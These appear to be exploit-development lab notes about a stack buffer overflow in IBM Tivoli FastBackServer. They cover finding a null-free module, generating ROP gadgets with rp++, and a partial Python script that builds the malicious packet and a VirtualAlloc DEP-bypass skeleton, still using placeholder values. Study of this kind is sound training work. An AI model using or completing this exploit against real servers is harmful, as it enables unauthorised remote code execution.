 	
LOCATING GADGETS
Now dump the start and end of the address of the executable:
	lm m FastBackServer
	


 we find the uppermost byte is always 0x00.

Since the sscanf API accepts a null-terminated string as the first argument, and that is the buffer that ends up overflowing the stack buffer, our ROP chain cannot contain any NULL bytes or other bad characters. This implies that the gadgets cannot come from FastBackServer.exe.

You can search for modules using just lm

We are going to use CSFTPAV6.dll, which does not start with a null byte
	lm m CSFTPAV6

Let's copy CSFTPAV6.dll to the C:\Tools\dep folder where we can use rp++ to generate gadgets
	copy "C:\Program Files\Tivoli\TSM\FastBack\server\csftpav6.dll" .
	rp-win-x86.exe -f csftpav6.dll -r 5 > rop.txt

Prepare the script:

We are going to invoke VirtualAlloc by placing a skeleton of the function call on the stack through the buffer overflow, modifying its address and parameters through ROP, and then return into it. The skeleton should contain the VirtualAlloc address followed by the return address (which should be our shellcode) and the arguments for the function call.

Updating the script with dummy values for the virtualalloc address:
	import socket
	import sys
	from struct import pack
	
	# psAgentCommand
	buf = bytearray([0x41]*0xC)
	buf += pack("<i", 0x534)  # opcode
	buf += pack("<i", 0x0)    # 1st memcpy: offset
	buf += pack("<i", 0x500)  # 1st memcpy: size field
	buf += pack("<i", 0x0)    # 2nd memcpy: offset
	buf += pack("<i", 0x100)  # 2nd memcpy: size field
	buf += pack("<i", 0x0)    # 3rd memcpy: offset
	buf += pack("<i", 0x100)  # 3rd memcpy: size field
	buf += bytearray([0x41]*0x8)
	
	# psCommandBuffer
	va  = pack("<L", (0x45454545)) # dummy VirutalAlloc Address
	va += pack("<L", (0x46464646)) # Shellcode Return Address
	va += pack("<L", (0x47474747)) # # dummy Shellcode Address
	va += pack("<L", (0x48484848)) # dummy dwSize 
	va += pack("<L", (0x49494949)) # # dummy flAllocationType 
	va += pack("<L", (0x51515151)) # dummy flProtect 
	
	offset = b"A" * (276 - len(va))
	eip = b"B" * 4
	rop = b"C" * (0x400 - 276 - 4)
	